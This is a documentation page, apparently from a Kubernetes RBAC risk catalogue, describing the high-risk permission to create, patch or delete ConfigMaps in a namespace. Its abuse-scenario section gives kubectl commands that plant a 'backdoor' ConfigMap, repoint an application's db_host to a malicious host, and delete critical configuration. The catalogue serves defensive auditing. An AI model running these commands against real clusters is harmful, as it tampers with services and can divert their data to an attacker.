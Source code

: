 ```yaml
---
id: 1025
title: "Modify ConfigMaps in a namespace"
description: "Grants permission to create, update, patch, or delete ConfigMaps within a specific namespace. This allows an attacker to tamper with application configurations, potentially causing service disruption or enabling further exploitation if applications load malicious settings."
category: Tampering
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field                   | Value                                                                                            |
| ----------------------- | ------------------------------------------------------------------------------------------------ |
| ID                      | 1025                                                                                             |
| Name                    | Modify ConfigMaps in a namespace                                                                 |
| Risk Category           | Tampering                                                                                        |
| Risk Level              | {{< risk High >}}                                                                                |
| Role Type               | Role                                                                                             |
| API Groups              | core                                                                                             |
| Resources               | configmaps                                                                                       |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                         |
| Tags                    | {{< tag "ConfigMapAccess" >}} {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} |

## Description

Grants permission to create, update, patch, or delete ConfigMaps within a specific namespace. This allows an attacker to tamper with application configurations, potentially causing service disruption or enabling further exploitation if applications load malicious settings.

## Abuse Scenarios

1. Create a new ConfigMap with malicious configuration in the namespace.

```bash
kubectl create configmap <new-cm-name> --from-literal=malicious_setting=true -n <namespace>
# Example: kubectl create configmap dev-backdoor-config --from-literal=enable_shell=true -n development

```

2. Patch an existing ConfigMap to alter application behavior within the namespace.

```bash
kubectl patch configmap <configmap-name> -n <namespace> --type='json' -p='[{"op": "replace", "path": "/data/<key>", "value": "<new-value>"}]'
# Example: kubectl patch configmap my-app-config -n production --type='json' -p='[{"op": "replace", "path": "/data/db_host", "value": "malicious-db.example.com"}]'

```

3. Delete a critical ConfigMap within the namespace, causing disruption.

```bash
kubectl delete configmap <configmap-name> -n <namespace>
# Example: kubectl delete configmap my-app-env -n default

```
